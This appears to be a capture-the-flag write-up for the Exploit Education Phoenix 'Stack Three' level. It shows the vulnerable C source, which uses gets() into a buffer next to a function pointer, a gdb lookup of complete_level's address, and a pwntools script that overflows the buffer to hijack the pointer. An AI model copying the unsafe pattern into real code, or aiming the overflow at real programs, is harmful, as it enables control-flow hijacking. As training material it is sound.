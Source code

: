 ```yaml
---
title: "Stack Three"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

The goal of this challenge if to overwrite the value of **fp**  which is a function pointer to point to **complete_level** function.

```
$ gdb -q /opt/phoenix/amd64/stack-three
Reading symbols from /opt/phoenix/amd64/stack-three...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40069d <complete_level>
```

Now that we know the address of **complete_level** function is **0x40069d**, we can now build our exploit.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x40069d)

print(buff)
```

 ```
$ python solve.py | /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
 ```

